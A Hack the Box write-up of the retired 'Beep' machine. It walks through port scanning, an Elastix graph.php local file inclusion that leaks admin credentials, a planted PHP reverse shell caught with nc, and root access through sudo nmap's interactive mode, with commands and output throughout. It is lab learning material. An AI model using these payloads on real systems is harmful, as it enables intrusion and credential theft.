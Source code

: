 ```yaml
---
layout: post
title: Hack the Box - Beep
date: 2020-07-12 22:11:22 +0100
description: Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
img: beep.png
fig-caption: Beep
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
## Enumeration
When running port scanning we see there are a large number of open ports. So starting from the webserver, we see an elastix login page.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~]
└─$ sudo nmap -p- -T4  10.129.117.90                                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 19:16 GMT
Nmap scan report for 10.129.117.90
Host is up (0.017s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
942/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 10.86 seconds
```
## Foothold
When we search for exploits there are a few available.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/beep]
└─$ searchsploit elastix
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                              | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                            | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                      | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                   | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                  | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                 | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                             | php/webapps/18650.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
After trying to use the pre-authenticated RCE exploit and failing, I attempted the lfi exploit with more success.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/beep]
└─$ curl -k https://10.129.117.90/vtigercrm/graph.php\?current_language=../../../../../../../..//etc/amportal.conf%00\&module=Accounts\&action
# This file is part of FreePBX.
...
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
We can use the above credentials to authenticate to the platform, once in I poked around and found a page where we can edit configuration files found here:
```
/index.php?menu=file_editor&action=edit&file=adsi.conf
```
I placed a reverse shell in the adsi.conf file similar to the one [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Then when I include the file in the same way as the password file we should receive a reverse shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/beep]
└─$ curl -k https://10.129.117.90/vtigercrm/graph.php?current_language=../../../../../../../../etc/asterisk/adsi.conf%00&module=Accounts&action

┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/beep]
└─$ sudo nc -nlvp 4242                                                                                                                                                                                                                   1 ⨯
listening on [any] 4242 ...
 connect to [10.10.14.27] from (UNKNOWN) [10.129.117.90] 38124
bash-3.2$ whoami
 whoami
asterisk
```
## Privilege Escalation
To escalate to root I used snippet from GTFObins found [here](https://gtfobins.github.io/gtfobins/nmap/#sudo)
```
bash-3.2$ sudo -l
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
!bash
bash-3.2# whoami
whoami
root
```

